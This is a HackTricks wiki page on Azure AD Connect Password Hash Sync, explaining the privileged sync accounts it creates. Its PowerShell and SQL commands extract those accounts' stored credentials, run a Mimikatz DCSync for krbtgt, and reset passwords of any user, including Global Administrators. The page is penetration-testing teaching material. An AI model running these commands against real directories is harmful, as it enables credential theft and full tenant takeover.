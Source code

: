 # Az - PHS - Password Hash Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Password hash synchronization** is one of the sign-in methods used to accomplish hybrid identity. **Azure AD Connect** synchronizes a hash, of the hash, of a user's password from an on-premises Active Directory instance to a cloud-based Azure AD instance.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

It's the **most common method** used by companies to synchronize an on-prem AD with Azure AD.

All **users** and a **hash of the password hashes** are synchronized from the on-prem to Azure AD. However, **clear-text passwords** or the **original** **hashes** aren't sent to Azure AD.\
Moreover, **Built-in** security groups (like domain admins...) are **not synced** to Azure AD.

The **hashes syncronization** occurs every **2 minutes**. However, by default, **password expiry** and **account** **expiry** are **not sync** in Azure AD. So, a user whose **on-prem password is expired** (not changed) can continue to **access Azure resources** using the old password.

When an on-prem user wants to access an Azure resource, the **authentication takes place on Azure AD**.

**PHS** is required for features like **Identity Protection** and AAD Domain Services.

## Pivoting

When PHS is configured some **privileged accounts** are automatically **created**:

* The account **`MSOL_<installationID>`** is automatically created in on-prem AD. This account is given a **Directory Synchronization Accounts** role (see [documentation](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) which means that it has **replication (DCSync) permissions in the on-prem AD**.
* An account **`Sync_<name of on-prem ADConnect Server>_installationID`** is created in Azure AD. This account can **reset password of ANY user** (synced or cloud only) in Azure AD.

Passwords of the two previous privileged accounts are **stored in a SQL server** on the server where **Azure AD Connect is installed.** Admins can extract the passwords of those privileged users in clear-text.\
The database is located in `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

It's possible to extract the configuration from one of the tables, being one encrypted:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

The **encrypted configuration** is encrypted with **DPAPI** and it contains the **passwords of the `MSOL_*`** user in on-prem AD and the password of **Sync\_\*** in AzureAD. Therefore, compromising these it's possible to privesc to the AD and to AzureAD.

You can find a [full overview of how these credentials are stored and decrypted in this talk](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Finding the **Azure AD connect server**

If the **server where Azure AD connect is installed** is domain joined (recommended in the docs), it's possible to find it with:

```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```

### Abusing MSOL\_\*

```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```

{% hint style="danger" %}
You can also use [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) to obtain these credentials.
{% endhint %}

### Abusing Sync\_\*

Compromising the **`Sync_*`** account it's possible to **reset the password** of any user (including Global Administrators)

```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```

It's also possible to **modify the passwords of only cloud** users (even if that's unexpected)

```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```

It's also possible to dump the password of this user.

{% hint style="danger" %}
Another option would be to **assign privileged permissions to a service principal**, which the **Sync** user has **permissions** to do, and then **access that service principal** as a way of privesc.
{% endhint %}

### Seamless SSO

It's possible to use Seamless SSO with PHS, which is vulnerable to other abuses. Check it in:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## References

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19_AD_Im_in_your_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
